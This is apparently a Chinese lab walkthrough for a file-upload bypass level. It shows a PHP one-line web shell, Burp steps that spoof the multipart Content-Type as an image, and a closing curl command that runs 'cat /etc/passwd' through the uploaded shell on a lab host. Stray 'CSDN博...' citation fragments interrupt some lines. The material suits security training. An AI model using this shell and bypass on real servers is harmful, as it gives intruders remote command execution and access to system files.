

## 漏洞原理

后端代码读取上传数据包里的 `Content‑Type`（由浏览器发送，**客户端可控**），只判断这个值是不是图片类型，没有校验文件真实内容、文件头、后缀。
直接上传 php 文件会被拦截；抓包修改表单内的 `Content‑Type` 为图片类型即可绕过。

## 解题步骤（Burp Suite）

1. 本地准备一句话木马 `shell.php`

```
<?php eval($_POST['pass']); ?>
```

2. 浏览器打开页面，选择这个 `shell.php`，点击上传，用 Burp 抓下上传的 POST 数据包。

原始数据包片段类似：

```
Content‑Disposition: form‑data; name="upload_file"; filename="shell.php"
Content‑Type: application/octet‑stream      ←这里是原来的类型
```

3. **修改 Content‑Type 值**，改成图片 MIME：

```
Content‑Type: image/jpeg
```

> 
> 可选值：`image/png` / `image/gif` 都可以CSDN博...。

4. 发送数据包，上传成功，页面返回上传后的路径，例如：`uploads/shell.php`
5. 访问该地址，使用蚁剑 / 菜刀连接，密码为`pass`，完成通关。

---

### 补充区分三关

1. **client check（客户端校验）**：浏览器 JS 拦截，禁用 JS 即可上传 php。
2. **server check（本题）**：**校验 Content‑Type (MIME)，抓包改这个请求头绕过**CSDN博...。
3. **getimagesize（图片头校验）**：只改 MIME 不行，需要做**图片马**（图片文件头 + php 代码），并且通常需要搭配文件包含漏洞执行 php 代码CSDN博...。

### 常见踩坑

- ❌不要只改文件名后缀，本题校验点不是后缀；
- ✅改的是 multipart 表单内部的`Content‑Type`，不是 HTTP 最外层请求头；
- 如果上传成功但是访问不执行 php，说明环境没有解析权限，检查靶场目录权限。


# ============
实操，AI改下上传的请求头

然后依旧老招式
curl -X POST https://27aedf8e3e0b4557b080c5a54e4a7f5c--8081.ap-shanghai2.cloudstudio.club/vul/unsafeupload/uploads/shell2.php -d "pass=system('cat /etc/passwd');"
读取成功